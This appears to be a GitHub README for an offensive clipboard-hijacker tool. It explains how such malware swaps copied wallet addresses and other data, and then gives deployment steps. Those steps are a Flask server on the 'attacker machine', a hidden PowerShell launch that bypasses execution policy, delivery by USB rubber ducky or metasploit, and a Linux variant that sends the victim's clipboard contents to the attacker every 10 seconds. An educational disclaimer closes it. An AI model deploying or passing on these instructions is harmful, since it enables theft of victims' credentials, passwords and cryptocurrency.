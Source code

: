 # Clipboard_Hijacker
A Clipboard Hijacker is a type of malware or script designed to monitor and manipulate the contents of a system’s clipboard. This is particularly dangerous in contexts where users copy sensitive data (like cryptocurrency addresses, passwords, or command-line instructions). The attacker typically replaces clipboard contents with their own data, often unnoticed by the victim.

# What Does a Clipboard Hijacker Do?
## Monitors Clipboard Activity :
Continuously checks the system clipboard for changes.
Typically runs silently in the background.

## Checks for Specific Patterns:
Looks for specific formats (e.g., Bitcoin wallet addresses, URLs, credit card numbers).
Uses regex to identify such patterns.
Replaces Clipboard Content:

## Injects attacker-controlled data (e.g., attacker's wallet address).
Victim unknowingly pastes the attacker’s data instead of their own.

# How to use:
Run Flask webserver your attacker machine using python so you need to install flask.

python3 -m pip install flask
Now you can run the following command for run the server

python3 server.py
change your webserver's IP address in clipboardhijacker.ps1 file & run this script using following command or other method like USB rubber ducky, metasploit command execution etc.

1. For Windows
powershell -NoP -NonI -W h -Exec Bypass .\clipBoardHijacker.ps1
2. For Linux
   Dependencies: The Bash script requires xclip, curl, and jq, which are easily installed on most Linux distributions. On macOS, you can replace xclip with pbpaste and adjust the script accordingly.
   
chmod +x clipBoardHijacker.sh
./clipBoardHijacker.sh

After that your webserver will getting target machine clipboard data in every 10 sec.

# Ethical and Legal Warning
Using or distributing clipboard hijackers for malicious purposes is illegal and unethical. This information is intended only for educational and awareness purposes (e.g., malware analysis, red teaming with permission, or teaching cybersecurity concepts).
